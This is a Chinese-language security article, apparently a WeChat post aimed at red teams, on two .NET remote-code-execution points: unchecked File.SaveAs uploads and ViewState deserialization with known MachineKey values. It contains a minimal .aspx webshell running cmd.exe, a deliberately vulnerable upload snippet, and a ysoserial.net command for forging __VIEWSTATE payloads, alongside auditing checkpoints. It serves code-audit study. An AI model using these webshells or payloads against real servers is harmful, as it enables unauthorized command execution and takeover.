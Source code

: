 #  .NET 介绍一种新型 RCE 利用点分析与漏洞挖掘思路  
原创 专攻.NET安全的  dotNet安全矩阵   2025-06-23 00:31  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在红队对目标进行 Web 渗透测试、权限维持与横向移动前期，代码审计往往是至关重要的技术环节。特别是在 .NET Web 应用中，存在一些极具价值的攻击面，可以直接达成远程代码执行，进而控制服务器。其中最常见、最值得关注的两个函数点就是：File.Save 文件上传逻辑和 ViewState 状态管理逻辑中的反序列化。  
  
**01. File.Save 上传**  
  
  
  
File.SaveAs()  
 是 .NET 中常见的文件保存方法，通常用于处理上传请求。如果对文件名、扩展名、路径等缺乏有效控制，则极易导致**任意文件上传漏洞**  
。一旦攻击者能上传 .aspx  
 等可执行脚本，即可直接访问 WebShell 实现远程命令执行，具体可参考如下代码。  
  
```
if(Request.Files["upload"]!=null){var file = Request.Files["upload"];string savePath = Server.MapPath("~/uploads/"+ file.FileName);    file.SaveAs(savePath);}
```  
  
  
该代码段没有对文件名、扩展名、路径进行任何校验，存在明显安全隐患。  
审计  
重点：是否对 file.FileName 进行了扩展名白名单校验？是否过滤了路径  
穿越符号？是否上传到具备脚本解析权限的目录下？是否允许上传 .aspx、.ashx 等执行型脚本？  
  
红队可构造如下 .aspx  
 木马脚本  
  
```
<%@ Page Language="C#"%><% System.Diagnostics.Process.Start("cmd.exe","/c whoami > c:\\whoami.txt");%>
```  
  
  
将其上传至目标站点的 ~/uploads/  
 目录下，命名为 shell.aspx  
，随后通过浏览器访问：  
  
```
http://target/uploads/shell.aspx
```  
  
  
即可在目标服务器上执行命令，完成 RCE 攻击。  
  
**02.ViewState反序列化**  
  
  
  
.NET WebForms 使用 ViewState 实现服务端与客户端之间的状态同步。正常情况下，ViewState 使用 MachineKey 加签以防止被篡改。但若存在如下情况：页面配置 EnableViewStateMac="false"  
；Web.config 中 MachineKey 固定（可被预测或暴力）；攻击者已知 MachineKey 的值。  
  
攻击者则可以构造恶意 ViewState 载荷，触发服务端反序列化，从而远程执行命令，如下配置存在安全隐患。  
  
```
<pages enableViewState="true" viewStateEncryptionMode="Always"/><machineKey validationKey="A1B2C3D4...固定值" decryptionKey="D4C3B2A1..." validation="SHA1" decryption="AES"/>
```  
  
  
若 validationKey 和 decryptionKey 为公开或弱值，攻击者可以伪造任意合法签名 ViewState。攻击者可使用 ysoserial.net  
 工具生成恶意序列化载荷：  
  
```
ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c "calc"-o base64
```  
  
  
将生成的 Base64 载荷作为 __VIEWSTATE  
 字段值提交至页面，服务端在还原 ViewState 时将执行攻击者指定的命令如启动计算器。  
  
无论是在客户端上传场景，还是服务器端状态反序列化场景中，File.Save  
 和 ViewState  
 都是.NET Web 应用中最容易被攻击者利用实现远程命令执行的关键位置。  
  
**03. 扩展的危险方法**  
  
  
  
除了 File.SaveAs()  
 和 ViewState  
 反序列化之外，在 .NET Web 应用中，**另一个常见的可实现远程代码执行的方法，具体详情请看如下视频演示。**  
  
